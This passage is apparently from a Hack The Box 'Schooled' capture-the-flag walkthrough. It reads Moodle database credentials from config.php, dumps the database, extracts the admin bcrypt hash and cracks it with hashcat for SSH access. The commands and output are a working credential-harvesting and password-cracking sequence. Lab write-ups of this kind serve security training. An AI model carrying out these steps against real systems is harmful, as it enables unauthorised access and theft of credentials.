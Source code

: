   $ cat config.php
    <?php  // Moodle configuration file

    $CFG->dbtype    = 'mysqli';
    $CFG->dblibrary = 'native';
    $CFG->dbhost    = 'localhost';
    $CFG->dbname    = 'moodle';
    $CFG->dbuser    = 'moodle';
    $CFG->dbpass    = 'PlaybookMaster2020';
    $CFG->prefix    = 'mdl_';
    $CFG->dboptions = array (
      'dbpersist' => 0,
      'dbport' => 3306,
      'dbsocket' => '',
      'dbcollation' => 'utf8_unicode_ci',
    );

We are unable to access mysql however;
$ mysql
  /bin/sh: mysql: not found

Looking in /etc/passwd we see that the users use '/bin/csh', so we change to that and are now able to access mysql.
mysql -D moodle -h localhost -u moodle -p
Enter password: PlaybookMaster2020


Dumping the database and looking on the table mdl_user we find the admin hash (jamie's hash), which is also on of our
available users.

mysqldump --databases moodle -h localhost -u moodle -p > out.txt
Enter password: PlaybookMaster2020

ls -al /usr/home
  total 26
  drwxr-xr-x   4 root   wheel   4 Mar 16 06:33 .
  drwxr-xr-x  16 root   wheel  16 Feb 26 22:46 ..
  drwx------   2 jamie  jamie  11 Feb 28 18:13 jamie
  drwx------   5 steve  steve  14 Mar 17 14:05 steve


[root:/git/htb/schooled]# cat mdl_user.txt | jamie
  'admin','$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW','','Jamie','Borham','jamie@staff.schooled.htb'


7. Crack the (blowfish) hash, SSH in as jamie and grab user.txt

[root:/git/htb/schooled]# hashcat -a0 -m3200 jamie.hash /usr/share/wordlists/rockyou.txt
  ..
  $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW:!QAZ2wsx

  Session..........: hashcat
  Status...........: Cracked
  Hash.Name........: bcrypt $2*$, Blowfish (Unix)

